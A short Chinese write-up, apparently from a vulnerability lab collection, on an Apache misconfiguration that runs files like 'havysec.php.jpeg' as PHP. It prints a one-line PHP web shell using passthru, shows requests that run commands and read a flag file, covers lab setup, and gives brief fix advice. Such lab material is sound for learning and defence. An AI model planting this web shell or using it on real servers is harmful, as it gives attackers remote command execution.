

# 
Apache 解析漏洞
 #

## 1.&emsp;漏洞描述 ##

* 漏洞简述： 由于Apache配置原因导致的图片格式的后缀会被当成php文件进行执行。
* 影响版本： 版本无关

## 2.&emsp;漏洞简介 ##

&emsp;&emsp;apache是开源的知名web服务器软件程序。

&emsp;&emsp;该漏洞主要的产生原因是配置不当。

## 3.&emsp;漏洞分析 ##

&emsp;&emsp;首先我们看一下如何利用这个漏洞，打开ip:port  

&emsp;&emsp;上传一个文件`havysec.php.jpeg`。文件内容是`<?php passthru($_GET[bash]);?>`。  

访问`ip:port/uploadfiles/havysec.php.jpeg?bash=ls`会发现执行了`ls`命令：

访问 `"ip:port/uploadfiles/havysec.php.jpeg?bash=cat ../flag.php`再右键查看源代码得到flag值。

### 源码解析

无  

## 4.&emsp;靶场环境搭建 ##

### 4.1&emsp;环境源码下载 ###

下载相应版本系统[github](https://github.com/havysec/vulnerable-scene)  

### 4.2&emsp;安装环境和导入数据库 ###

* 在Linux下直接安装Apache+php5环境，然后将源码导入到/var/www/html文件夹下。
* 更改配置文件，启动Apache服务，访问首页即可。

### 4.3&emsp;漏洞复现 ###

如上

## 5.&emsp;修复意见 ##

&emsp;&emsp;正确配置apache环境  
